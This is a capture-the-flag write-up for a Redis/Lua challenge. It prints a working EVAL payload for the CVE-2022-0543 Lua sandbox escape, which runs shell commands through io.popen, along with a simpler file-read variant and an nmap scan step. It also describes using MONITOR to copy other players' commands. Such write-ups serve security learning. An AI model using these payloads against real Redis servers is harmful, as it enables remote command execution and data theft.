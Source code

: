 # Flag
KCTF{c0n6r475_b015_n1c3_c47ch}

# Analysis
Based on the name of the challenge it can be assumed that the exploit is related to lua and the redis port 6379. During the CTF I was not able to find a proper exploit to exploit the port, however upon reading the manual for redis-cli I came upon a command that would be able to read the inputs that were being inputted by users of the port. Using this command which was `MONITOR` I was able to see other player's input.


# Solution
Upon analyzing the inputs of players I took notes of certain IPs that were trying different commands using eval. I assumed that when an IP stopped sending commands it would mean the command they had tried succeeded and they were able to capture the flag.
![image](https://github.com/user-attachments/assets/dddae828-00d0-40fd-ac92-6eb2dbda1cf9)

As you can see IP 109.120.149.149 stopped at this command so based on my earlier assumption it means this command should work.
![image](https://github.com/user-attachments/assets/74e5edc0-8c87-43f3-ae63-40c920f5ebe4)

I tested it on the server and it worked giving me the flag.
![image](https://github.com/user-attachments/assets/2221d2c1-5099-4141-b2c4-a5a28c6233bc)



CLI:
```
MONITOR


EVAL "local io_l = package.loadlib(\"/usr/lib/x86_64-linux-gnu/liblua5.1.so.0\", \"luaopen_io\"); local io = io_l(); local f = io.popen(\"cat /flag.txt\", \"r\"); local res = f:read(\"*a\"); f:close(); return res" 0

```

# Other Solutions
```
EVAL "return io.open('/flag.txt'):read('*all')" 0 ###"KCTF{c0n6r475_b015_n1c3_c47ch}"
```

# Intended Solution
```
`nmap 172.105.121.246 -sV -p6379 -T4` -> `6379/tcp open redis Redis key-value store 5.0.7` -> [https://github.com/vulhub/vulhub/blob/master/redis/CVE-2022-0543/README.md](https://github.com/vulhub/vulhub/blob/master/redis/CVE-2022-0543/README.md "https://github.com/vulhub/vulhub/blob/master/redis/CVE-2022-0543/README.md") -> then `cat /*.txt` and you will get the flag ~~
```
